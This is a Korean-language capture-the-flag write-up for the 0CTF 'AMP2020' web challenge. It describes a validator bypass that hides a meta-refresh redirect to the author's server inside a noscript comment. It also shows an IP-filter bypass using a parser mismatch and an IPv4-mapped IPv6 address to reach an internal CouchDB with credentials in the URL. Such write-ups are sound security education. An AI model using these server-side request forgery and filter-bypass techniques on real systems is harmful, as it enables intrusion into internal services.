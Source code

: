 ```yaml
---
layout: post
title:  "AMP2020 writeup"
author: "hkkiw0823"
comments: true
tags: [ctf, web]
---
```


라온화이트햇 핵심연구팀 강인욱


0CTF에서 나온 문제중 하나로 AMP(Accelerated Mobile Pages)를 사용하는 문제이다. AMP 는 빠른 모바일 페이지를 위해 구글에서 만든 포맷이다.

그래서 몇가지 제약사항이 있다.

1. CSS는 모두 인라인으로 지정해야 하며 50KB를 넘을 수 없다.
2. 스크립트는 <script async src="[https://cdn.ampproject.org/v0.js](https://cdn.ampproject.org/v0.js)"></script> 만 사용해야 하며, 추가적인 amp 태그를 사용하려면 amp에서 제공하는 스크립트를 추가하면 사용할 수 있다.
3. 기본 HTML 태그 대신 <amp-img>, <amp-anim>, <amp-video>같은 AMP 전용 태그를 사용한다.

플래그를 얻기 위해선 다음과 같은 루트를 타야한다.

1. AMP Validator에서 HTTP Request를 발생시킨다.
2. IP제한을 우회하고 HTTP Request를 발생시켜서 내부 CouchDB Web API에 접속할 수 있도록 한다. 
3. CouchDB에서 플래그를 가져온다.

AMP 관련 문서 : [https://amp.dev/](https://amp.dev/)

위 링크에서 설명하기를 추가적인 AMP 태그를 사용하려면 아래와 같이 custom-element 를 추가해주고 관련 스크립트를 추가해줘야 한다고 나와있다.

```jsx
<script async custom-element="amp-ad" src="https://cdn.ampproject.org/v0/amp-ad-0.1.js"></script>
```

문서에서는 무조건 추가해주어야 한다고 나와있어서 아래의 실제 문제 출제자의 풀이처럼 이용하지는 않았다. (기존 버전과 호환성을 위해 스크립트를 추가를 안해줘도 동작을 한다나...)

출제자가 사용한 amp-ad 태그( HTTP Request )

```
  <amp-ad
    width="728"
    height="90"
    type="f1h"
    data-section-id="100"
    data-slot="107"
    data-custom='{"my_custom_param":"my_custom_value"}'
    data-pubnetwork-lib="https://YOUR_WEBSITE"
  >
  </amp-ad>
```

스크립트를 실행시킬 방법을 찾기위해 meta 태그를 이용해 내 서버로 이동시키려고 하였고 삽질끝에 아래와 같이 이동시킬 수 있었다.

```html
<!doctype html>
<html amp lang="en">
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js"></script>
    <title>Hello, AMPs</title>
    
    
      <noscript> <style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style> 
      <!--  </noscript> <meta http-equiv="refresh" content="0;url=http://wuq.kr/zxdasdzcz"> --></noscript>
    
    <link rel="canonical" href="https://amp.dev/documentation/guides-and-tutorials/start/create/basic_markup/">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style>
  </head>
  <body>
    <h1>Welcome to the mobile web</h1>
  </body>
</html>
```

자바스크립트를 사용할 수 있으면 내부 서버에 데이터를 요청할 수 있으므로 CouchDB Web API에 접근할 수 있다.

APM2020 NodeJS 소스에서 IP 우회를 하려면 아래와 같이 할 수 있다.

```html
const parsed = new URL(url)
const parsed2 = new UrlParse(url)

(isIp(host2) && IP.isPublic(host) && IP.isPublic(host2))
```

```html
http://${database}:${password}@[::ffff:ac1e:103]:5984/
```

그리고 NodeJS axios 에서 인자에 배열을 이용해 옵션을 추가할 수 있으므로 GET, POST, PUT 메소드 등을 이용해 CouchDB 에서 플래그를 가져오면 된다.